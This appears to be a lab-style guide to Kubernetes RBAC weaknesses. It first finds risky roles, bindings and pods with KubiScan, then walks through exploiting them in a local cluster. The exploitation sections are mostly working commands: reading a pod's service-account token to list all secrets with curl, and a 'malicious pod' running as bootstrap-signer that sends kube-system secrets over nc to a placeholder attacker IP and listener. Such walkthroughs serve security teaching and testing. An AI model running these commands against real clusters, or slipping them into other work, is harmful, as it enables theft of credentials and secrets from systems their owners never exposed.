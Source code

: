 # Finding objects with risky permissions

```sh
git clone git@github.com:cyberark/KubiScan.git
cd KubiScan
./docker_run.sh ~/.kube/config
```

```sh
kubiscan --risky-roles -r
kubiscan --risky-clusterroles -r
kubiscan --risky-rolebindings
kubiscan --risky-clusterrolebindings

kubiscan --risky-subjects # Users, Groups or Service Accounts

kubiscan --risky-pods
kubiscan --dump-tokens # Dump tokens from pod\pods

kubiscan --associated-any-rolebindings-role "system:controller:token-cleaner" -ns "kube-system"
kubiscan --associated-any-rolebindings-clusterrole "cluster-admin"
kubiscan --associated-any-rolebindings-subject "system:masters" -k "Group"
kubiscan --associated-any-roles-subject "generic-garbage-collector" -k "ServiceAccount" -ns "kube-system"
kubiscan -aars "system:authenticated" -k "Group"

# Show Pods that has access to the secret data through a Volume
kubiscan --pods-secrets-volume

# Show Pods that has access to the secret data through environment variables
kubiscan --pods-secrets-env
```

# Exploiting risky permissions

```sh
alias k='kubectl'
```

## Pod with permission to list secrets

An attacker that gains access to the JWT token that is associated with account
that has permissions to list secrets, can use curl to get all secrets in a
namespace (or the whole cluster if clusterrolebinding was used). This way an
attacker can grab usernames and passwords for applications or databases, SSH
keys, more priveleged users' tokens or other secrets.

Create a secret that we'll try to get:

```sh
k create secret generic mypassword --from-literal password=s3cret!
```

Create a pod that can list secrets:

```sh
# Service account that can read secrets in the namespace.
k create sa secrets-reader
k create role read-secrets --resource secrets --verb list
k create rolebinding secrets-reader --serviceaccount default:secrets-reader --role read-secrets

# Pod using the service account.
cat <<EOF | k apply -f -
apiVersion: v1
kind: Pod
metadata:
  labels:
    run: nginx
  name: nginx
spec:
  serviceAccount: secrets-reader
  containers:
  - image: nginx
    name: nginx
  dnsPolicy: ClusterFirst
  restartPolicy: Always
EOF
```

Get all the secrets in a namespace through the pod:

```sh
cat <<'EOF' | k exec -i nginx -- bash | jq -r '.items[].data.password' | base64 -d
APISERVER=https://kubernetes.default.svc
SERVICEACCOUNT=/var/run/secrets/kubernetes.io/serviceaccount
NAMESPACE=$(cat ${SERVICEACCOUNT}/namespace)
TOKEN=$(cat ${SERVICEACCOUNT}/token)
CACERT=${SERVICEACCOUNT}/ca.crt
URLPATH=${APISERVER}/api/v1/namespaces/default/secrets
curl -s --cacert ${CACERT} --header "Authorization: Bearer ${TOKEN}" $URLPATH
EOF
```

## Pod with permissions to create pods in kube-system namespace

NOTE: works only for Kuberentes v1.20 and lower. After that bound service
accounts are used.

Run kind cluster with v1.20:

```sh
cat <<EOF > kind-config.yaml
kind: Cluster
apiVersion: kind.x-k8s.io/v1alpha4
networking:
  apiServerAddress: "127.0.0.1"
  apiServerPort: 6443
nodes:
- role: control-plane
  image: kindest/node:v1.20.15@sha256:a32bf55309294120616886b5338f95dd98a2f7231519c7dedcec32ba29699394
EOF
kind create cluster --config kind-config.yaml
```

Create pod that can create pods:

```sh
SA="sa3"
NS="kube-system"

k create role create-pods --resource pods --verb create
k create sa $SA -n=$NS
k create rolebinding create-pods -n=$NS --role=create-pods --serviceaccount="$NS:$SA"

# Get token of sa3 service account.
SECRET=$(k get sa $SA -n $NS -o json | jq -r '.secrets[].name')
TOKEN=$(k get secrets $SECRET -n=$NS -o json | jq -r '.data.token' | base64 -d)
```

Exfiltrate all secrets from the namespace:

```sh
# First, try to list secrets, you should get 403 - forbidden.
curl -k -H "Authorization: Bearer $TOKEN" -H "Content-Type: application/json" https://127.0.0.1:6443/api/v1/namespaces/kube-system/secrets

# Malicious pod uses privileged account bootstrap-signer and its token to list secrets and send them out of the cluster :-0.
cat <<'EOF' > malicious-pod.yaml
apiVersion: v1
kind: Pod
metadata:
  labels:
    run: alpine
  name: alpine
  namespace: kube-system
spec:
  containers:
  - image: alpine
    name: alpine
    command: ["/bin/sh"]
    args: ["-c", "apk update && apk add curl --no-cache && curl -k -v -H \"Authorization: Bearer $(cat /run/secrets/kubernetes.io/serviceaccount/token)\" -H 'Content-Type: application/json' https://127.0.0.1:6443/api/v1/namespaces/kube-system/secrets | nc <IP_ADDRES> 6666"]
  serviceAccountName: bootstrap-signer
  automountServiceAccountToken: true
  hostNetwork: true
  dnsPolicy: ClusterFirst
  restartPolicy: Never
EOF

# Convert yaml to json.
yq -o=json malicious-pod.yaml > malicious-pod.json

# In a different terminal window.
nc -l 6666

# Exfiltrate kube-system secrets.
curl -k -X POST -H "Authorization: Bearer $TOKEN" -H "Content-Type: application/json" https://127.0.0.1:6443/api/v1/namespaces/kube-system/pods -d @malicious-pod.json
```